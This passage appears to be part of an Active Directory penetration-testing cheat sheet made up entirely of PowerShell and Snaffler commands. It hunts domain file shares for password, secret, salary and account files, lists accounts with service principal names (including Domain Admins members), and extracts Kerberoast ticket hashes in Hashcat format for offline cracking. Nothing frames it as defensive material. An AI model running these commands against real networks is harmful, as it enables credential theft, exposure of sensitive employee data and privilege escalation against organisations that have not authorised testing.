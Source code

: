 ```bash

# PowerShell files
Find-InterestingDomainShareFile -Include *.ps1 | Select -ExpandProperty "Path" | Sort | Out-File "PS1-Files.txt" -Encoding "ASCII"

# DLL Config files
Find-InterestingDomainShareFile -Include *dll.conf* | Select -ExpandProperty "Path" | Sort | Out-File "DLLConfig-Files.txt" -Encoding "ASCII"

# SQL files
Find-InterestingDomainShareFile -Include *sql* | Select -ExpandProperty "Path" | Sort | Out-File "SQL-Files.txt" -Encoding "ASCII"

# Test files
Find-InterestingDomainShareFile -Include test* | Select -ExpandProperty "Path" | Sort | Out-File "Test-Files.txt" -Encoding "ASCII"

# Password files
Find-InterestingDomainShareFile -Include passw* | Select -ExpandProperty "Path" | Sort | Out-File "Password-Files.txt" -Encoding "ASCII"

# Secret files
Find-InterestingDomainShareFile -Include secret* | Select -ExpandProperty "Path" | Sort | Out-File "Secret-Files.txt" -Encoding "ASCII"

# Salary files
Find-InterestingDomainShareFile -Include salar* | Select -ExpandProperty "Path" | Sort | Out-File "Salary-Files.txt" -Encoding "ASCII"

# Account files
Find-InterestingDomainShareFile -Include account* | Select -ExpandProperty "Path" | Sort | Out-File "Account-Files.txt" -Encoding "ASCII"
```

**Snaffler**

```bash
Snaffler.exe -s -d Domain.local -o snaffler.log -v data
```

### SPN Enumeration

```bash
# find all users with an SPN set (likely service accounts)
Get-DomainUser -SPN

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# Retrieve SPN hash
Get-DomainUser | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
Get-DomainUser -Identity <User> | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
```
